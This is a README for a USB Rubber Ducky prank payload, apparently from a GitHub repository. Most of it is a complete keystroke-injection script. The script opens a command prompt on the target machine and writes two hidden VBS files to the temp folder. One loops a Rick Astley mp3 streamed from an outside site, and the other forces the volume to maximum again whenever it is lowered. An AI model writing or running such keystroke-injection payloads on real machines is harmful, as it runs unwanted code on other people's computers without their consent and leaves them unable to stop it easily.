 Based on: https://gitlab.com/WarKitteh/arduino-hid-rickroll
GitLab repo (Modded): https://github.com/BlueArduino20/Rickroll-MODDED

It creates and starts 2 vbs files. One of them plays Never Gonna Give You Up from Rick Astley on a loop without any windows showing up. Another vbs file sets the volume to the maximum continuously and if someone tries to get down the volume, it will reset the volume to the maximum level.

Ducky code:
<pre><code>
DELAY 3500
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 200
STRING cd %tmp% && copy con rickyou.vbs
ENTER
STRING While true
ENTER
STRING Dim oPlayer
ENTER
STRING Set oPlayer = CreateObject("WMPlayer.OCX")
ENTER
STRING oPlayer.URL = "https://pixelcoding.nl/download/rickroll.mp3"
ENTER
STRING oPlayer.controls.play
ENTER
STRING While oPlayer.playState <> 1 ' 1 = Stopped
ENTER
STRING WScript.Sleep 100
ENTER
STRING Wend
ENTER
STRING oPlayer.close
ENTER
STRING Wend
ENTER
DELAY 100
CTRL z
ENTER
STRING copy con volup.vbs
ENTER
STRING do
ENTER
STRING Set WshShell = CreateObject("WScript.Shell")
ENTER
STRING WshShell.SendKeys(chr(&hAF))
ENTER
STRING loop
ENTER
CTRL z
ENTER
STRING start rickyou.vbs && volup.vbs
</pre></code>